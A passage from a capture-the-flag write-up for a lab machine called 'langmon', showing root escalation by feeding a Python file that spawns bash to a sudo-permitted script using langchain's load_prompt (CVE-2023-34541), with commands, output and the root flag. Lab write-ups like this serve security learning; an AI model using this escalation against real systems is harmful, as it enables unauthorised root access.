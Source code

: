 It worked, and I got the user flag.

## Getting root

I looked if the user could run anything with `sudo`.

```bash
developer@langmon:~$ sudo -l
[sudo] password for developer:
Sorry, try again.
[sudo] password for developer:
Matching Defaults entries for developer on langmon:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User developer may run the following commands on langmon:
    (root) /opt/prompt_loader.py
```

They could run a Python script. I looked at what the script did.

```python
developer@langmon:~$ cat /opt/prompt_loader.py
#!/usr/bin/python3
import sys
from langchain.prompts import load_prompt

def load(file):
        try:
                load_prompt(file)
        except:
                print("There is something wrong with the prompt file.")

if __name__ == "__main__":
        if len(sys.argv) != 2:
                print("Usage: prompt_loader.py <prompt_file_path>")
        else:
                file = sys.argv[1]
                load(file)
```

The script took a file as parameter and passed it to `load_prompt`. I search for vulnerabilities and found that it would [execute any Python code in the file](https://tutorialboy.medium.com/langchain-arbitrary-command-execution-cve-2023-34541-8f56fe2737b0).

I created a script that launched bash.

```python
#!/usr/bin/python3

import os
os.system("/bin/bash")
```

And called the loader to become root.

```bash
developer@langmon:~$ sudo /opt/prompt_loader.py test.py

root@langmon:/home/developer# whoami
root

root@langmon:/home/developer# cat /root/root.txt
HTB{7h3_m4ch1n35_5p34k_w3_h34r}
```